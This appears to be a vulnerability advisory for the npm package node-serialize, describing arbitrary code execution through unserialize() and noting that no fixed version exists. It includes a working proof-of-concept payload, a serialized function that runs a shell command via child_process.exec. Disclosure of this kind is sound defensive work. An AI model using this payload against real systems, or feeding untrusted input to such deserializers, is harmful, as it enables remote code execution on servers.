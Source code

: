 ## Overview
[`node-serialize`](https://www.npmjs.com/package/node-serialize) serializes an object and it's function into a JSON.

Affected versions of this package are vulnerable to Arbitrary Code Execution when untrusted user-input is passed into the `unserialize()` function.

**Example:**
```js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```

## Remediation
There is no fix version for `node-serialize`

## References
- [Opsecx Blog]( https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- [Github Issue](https://github.com/luin/serialize/issues/4)
